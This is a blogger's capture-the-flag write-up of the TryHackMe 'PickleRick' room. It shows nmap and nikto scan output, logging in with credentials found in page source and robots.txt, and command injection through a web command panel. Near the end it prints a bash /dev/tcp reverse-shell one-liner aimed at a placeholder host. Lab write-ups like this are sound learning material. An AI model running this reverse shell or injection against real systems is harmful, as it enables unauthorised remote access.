





PickleRick
by Leo Smith / p4p1
Created on Sat. 02 May 2020
Today I completed an other room on tryhackme with a Rick and Morty theme to it!
I am still a noob and I did do a few errors while trying to break into this machine.
Reconnaissance
As usual I scanned the IP provided by tryhackme to see what services are running on the machine.
Starting Nmap 7.60 ( https://nmap.org ) at 2020-05-02 14:24 CEST
Pre-scan script results:
| broadcast-avahi-dos:
| Discovered hosts:
| 224.0.0.251
| After NULL UDP avahi packet DoS (CVE-2011-1002).
|_ Hosts are all up (not vulnerable).
Nmap scan report for 10.10.166.40
Host is up (0.020s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags:
| /login.php:
| PHPSESSID:
|_ httponly flag not set
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
| /login.php: Possible admin folder
|_ /robots.txt: Robots file
| http-fileupload-exploiter:
|
| Couldn't find a file-type field.
|
|_ Couldn't find a file-type field.
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-sql-injection:
| Possible sqli for queries:
| http://10.10.166.40/assets/r.location.href,t.head.appendChild(i)):t=r),o=A.exec(e),a=!n&&%5b%5d,o?w%28a%29
.remove%28%29%2cw.merge%28%5b%5d%2co.childNodes%29%29%7d%2cw.fn.load=function%28e%2ct%2cn%29%7bvar%27%20OR%20sql
spider&%5bt.createElement%28o%5b1%5d%29%5d%3a%28o=xe%28%5be%5d%2ct%2ca%29%2ca&=&a.length=
| http://10.10.166.40/assets/r.location.href,t.head.appendChild(i)):t=r),o=A.exec(e),a=!n&&%5b%5d,o?w%28a%29
.remove%28%29%2cw.merge%28%5b%5d%2co.childNodes%29%29%7d%2cw.fn.load=function%28e%2ct%2cn%29%7bvar&%5bt.createEl
ement%28o%5b1%5d%29%5d%3a%28o=xe%28%5be%5d%2ct%2ca%29%2ca%27%20OR%20sqlspider&=&a.length=
| http://10.10.166.40/assets/r.location.href,t.head.appendChild(i)):t=r),o=A.exec(e),a=!n&&%5b%5d,o?w%28a%29
.remove%28%29%2cw.merge%28%5b%5d%2co.childNodes%29%29%7d%2cw.fn.load=function%28e%2ct%2cn%29%7bvar&%5bt.createEl
ement%28o%5b1%5d%29%5d%3a%28o=xe%28%5be%5d%2ct%2ca%29%2ca&=%27%20OR%20sqlspider&a.length=
| http://10.10.166.40/assets/r.location.href,t.head.appendChild(i)):t=r),o=A.exec(e),a=!n&&%5b%5d,o?w%28a%29
.remove%28%29%2cw.merge%28%5b%5d%2co.childNodes%29%29%7d%2cw.fn.load=function%28e%2ct%2cn%29%7bvar&%5bt.createEl
ement%28o%5b1%5d%29%5d%3a%28o=xe%28%5be%5d%2ct%2ca%29%2ca&=&a.length=%27%20OR%20sqlspider
| http://10.10.166.40/assets/?C=D%3bO%3dA%27%20OR%20sqlspider
| http://10.10.166.40/assets/?C=N%3bO%3dD%27%20OR%20sqlspider
| http://10.10.166.40/assets/?C=N%3bO%3dA%27%20OR%20sqlspider
|_http-stored-xss: Couldnt find any stored XSS vulnerabilities.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 359.68 seconds
#[p4p1@computer thm/]$ nikto -host 10.10.110.84
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP: 10.10.110.84
+ Target Hostname: 10.10.110.84
+ Target Port: 80
+ Start Time: 2020-05-02 18:33:22 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time: 2020-05-02 18:44:53 (GMT2) (376 seconds)
--------------------------------------------------------------------------
While the nikto and nmap scans where running I also decided to run a few scans with OWASP zap proxy just in case.
With all of the scans finished and all of this information I went on the main page to explore a little. I then opened the source code and found a username.
With that out of my way their is obviously a login page somewhere. Looking back at the scans it was pretty obvious the login page was in /login.php. But the scans also returned some information about robots.txt so I decided I should visit that too. Opening the robots.txt file I see a string that resembles a password so I decided to go on the login page and try it.
Command Injection
From here after logging in with ricks account there was a command panel. Seeing this I wanted to inject some kind of reverse shell so that I could mess around a lot more! So I began by seeing who I was and what was inside of the directory.
I was in /var/www/html and my user was: www-data. With sudo -l I saw that I had basically root access from the get go, so no need for any Privilege Escalation today. In the current working directory of the user www-data the first flag is located in a .txt file. With also a clue.txt I opened the file in my browser and it gave me the position of the second flag is in the /home/ folder. When running the cat command inside of the shell there was an error and I could not run the cat command. So I figured I needed a proper shell either a reverse one or with a phpbash script. So I uploaded php bash but the script wasn't working for some reason.
After a lot of trial and error with python reverse shells not understanding why that didn't work I looked up at an other write up and found that you could do a bash reverse shell and after running it encapsulated in a bash -c ''. I had a reverse shell:
bash -c 'bash -i >& /dev/tcp/x.x.x.x/8080 0>&1'
With the reverse shell working I then displayed the flag in the home folder and with the prior knowledge that the user could run sudo commands without password I displayed the flag located in the root directory
In conclusion this room was easy but I felt very rusty I took a 3 day break and it really didn't help I need to get back in the flow of solving those rooms.
Thank you for reading please check out my other write ups and share this page.